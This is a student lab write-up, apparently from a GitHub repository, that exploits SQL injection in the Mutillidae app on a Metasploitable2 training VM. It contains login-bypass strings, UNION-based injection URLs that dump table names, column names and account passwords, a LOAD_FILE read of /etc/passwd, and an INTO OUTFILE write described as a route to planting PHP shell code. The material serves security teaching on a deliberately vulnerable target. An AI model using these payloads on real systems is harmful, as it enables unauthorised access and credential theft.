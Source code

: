 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/39bdc826-9fa2-4749-a400-9439229fe563)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/704c742c-ccf7-4303-846e-b6c3b6526d8f)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/5f7bea7b-845a-485f-8f53-b110ca38cdcd)
Click on the menu Login/Register and register for an account 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/810a3311-b71a-4832-920f-6ce1d2300e17)
Click on the link “Please register here”
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/b4b277ec-a4fd-4d2d-88a0-53d4de2980eb)
Click on “Create Account” to display the following page:
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/20312b73-35bd-4e94-82ec-b6ab47ec7fcb)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page. 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/94a3f1d1-f683-45dc-8247-197743109158)
Click “Login”. The logged in page will show as below:
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/27a9585a-63d6-4a90-bb50-f040a262592b)
login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password. 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/b38d644b-287b-4972-81a4-0ea86647f5b2)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8fbe7398-b224-4938-9c17-60565908de7b)
# Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” After logging out, Now choose the menu as shown below: 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/f2329720-887c-48f7-be98-f5a6479b6f22)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/db6e5ac7-9aab-49d9-93b5-65039fe10212)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/9737f980-188f-4525-9648-b16f9335be84)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/9eaa6a6e-ff20-418b-9d2f-fecdddcb2b7c)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/28c0f8e8-0ec0-4425-93fa-94781387e446)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned. 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8442469e-362d-48a4-915c-d0aebe490064)
ince we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8c76c295-b529-4dfb-99db-7e9248d6884d)
After adding the order by 6 into the existing url , the following error statement will be obtained: 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/9c0f38a1-ff94-4959-bc46-490135231865)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/5165e616-74e9-4847-b214-bd14bf5ea38c)
As it is having 5 columns the query worked fine and it provides the correct result.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/ba6bfd81-ce12-4bb3-b921-72a478ab19d1)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5) 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/c64d8e45-73c6-43df-a6df-f3323af48303)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/031507bd-6870-480a-b58e-9e03968162a3)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/330fc46d-5a6f-437c-ad7d-8a086ae71211)
 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details image The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8f114f64-f518-4c51-9305-b441bbf19733)

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/729f4718-1446-458f-bcf6-e8652e76af69)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/b353dab2-5379-452d-83df-34efe160691f)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/09b8b9e8-679f-46cd-94be-adc8b53bd5a5)


Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/ad76ef59-c211-4a3d-b68a-c589586cce08)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
